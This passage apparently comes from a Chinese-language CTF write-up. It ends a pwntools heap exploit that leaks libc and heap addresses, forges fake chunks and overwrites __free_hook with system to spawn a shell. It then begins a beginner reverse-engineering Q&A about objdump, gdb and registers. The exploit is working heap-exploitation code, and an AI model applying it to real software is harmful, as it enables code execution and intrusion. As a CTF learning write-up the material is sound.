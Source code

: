 ```python
info(f"libc: {hex(libc)}")
__free_hook = libc + 0x1e68e8
unsorted_bin = libc + 0x1e4ca0
_stdin = libc + 0x1e4a00
_system = libc + 0x50300

### leak heap
leak(0x30)
heap = u64(r.recv(6).ljust(8, b'\x00')) - 0x290
info(f"heap: {hex(heap)}")

### leak code
wr(0, p64(heap + 0x280))
leak(0)
code = u64(r.recv(6).ljust(8, b'\x00')) - 0x1670
info(f"code: {hex(code)}")
mmapped = code + 0x4048

fake_chunk2 = p64(0) + p64(0xa1) + p64(mmapped - 0x18) + p64(mmapped - 0x10)
fake_chunk2 += p64(0) + p64(0x91) + p64(unsorted_bin)*2
fake_chunk2 = fake_chunk2.ljust(0xa0, b'\x00')
fake_chunk2 += p64(0xa0) + p64(0xa0) + p64(0) + p64(0)
fake_chunk2 = fake_chunk2.ljust(0xa0*2, b'\x00')
fake_chunk2 += p64(0) + p64(0x21) + p64(0)*2
fake_chunk2 += p64(0) + p64(0x21) + p64(0)*2
wr(0, fake_chunk2)
fr(0xa0+0x10)

payload = p64(_stdin) + p64(0) + p64(heap + 0x260) + p64(__free_hook-0x8)
wr(0, payload)
wr(0, b"/bin/sh\x00" + p64(_system))
fr(0) # get shell

r.interactive()
```



## Reverse

### baby-reverse

`README.md` 列了一些問題給比較沒經驗的 reverser:

- What kind of binary have you got infront of you? (Hint: "file" command)
  - `chall: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, stripped`
- How can you disassemble the file? (objdump, gdb, radare...)
  - `objdump`、`ida`
- Which programs are common debuggers?
  - `gdb`
- How can I use them? (we recommend gdb with the peda plugin)
  - how can I set breakpoints?
    - `b`
  - in which different ways can I step through programs?
    - `si`、`s`、`ni`、`n`
  - how can I print/examine the content of memory/addresses
    - `x/30gx <address>`
- what is inside registers? what's rax, rip, rsp?
  - `rax`: return value
  - `rip`: instruction pointer
  - `rsp`: top of stack
- what is the linux syscall convention?
  - In which register is the second argument?
    - `rsi`